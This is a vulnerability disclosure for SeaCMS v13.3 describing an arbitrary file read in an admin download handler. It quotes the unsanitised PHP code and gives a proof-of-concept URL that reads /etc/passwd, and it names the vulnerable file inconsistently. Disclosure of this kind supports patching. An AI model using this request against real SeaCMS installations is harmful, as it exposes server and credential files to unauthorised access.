

## Arbitrary File Reading - admin_safe_file.php

### Introduction

SeaCMS v13.3 has an arbitrary file reading vulnerability. This vulnerability is located in the utility file `admin_safe_file.php`, which does not properly restrict the parameters, allowing an attacker to read arbitrary files.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download


You can see the latest version v13.3


### Vulnerability Attack Analysis

The vulnerable file exists in `0omeqd\admin_plus.php` where parameters are passed into `file_get_contents`, enabling arbitrary file reading.
```php
<?php
if(!(isset($_COOKIE['t00ls']) && $_COOKIE['t00ls'] == $md5) && !(isset($_POST['username']) && isset($_POST['password']) && (md5(md5($_POST['username']).md5($_POST['password']))==$md5)))
{
 setcookie("t00ls", $md5, time()+60*60*24*365,"/");
 header( 'refresh: 1; url='.MYFILE.'?action=scan' );
 exit();
}
elseif(isset($_POST['username']) && isset($_POST['password']) && (md5(md5($_POST['username']).md5($_POST['password']))==$md5))
{
 setcookie("t00ls", $md5, time()+60*60*24*365,"/");
 header( 'refresh: 1; url='.MYFILE.'?action=scan' );
 exit();
}
else
{
 setcookie("t00ls", $md5, time()+60*60*24*365,"/");
 $setting = getSetting();
 $action = isset($_GET['action'])?$_GET['action']:"";
  
 if($action=="logout")
 {
  setcookie ("t00ls", "", time() - 3600);
  Header("Location: ".MYFILE);
  exit();
 }
 if($action=="download" && isset($_GET['file']) && trim($_GET['file'])!="")
 {
  $file = $_GET['file'];
  ob_clean();
  if (@file_exists($file)) {
   header("Content-type: application/octet-stream");
      header("Content-Disposition: filename=\"".basename($file)."\"");
   echo file_get_contents($file);
  }
  exit();
 }
?>
```

We access the path with the following POC:
```r
ywmba6/admin_safe_file.php?action=download&file=/etc/passwd
```
This successfully reads the `/etc/passwd` file.
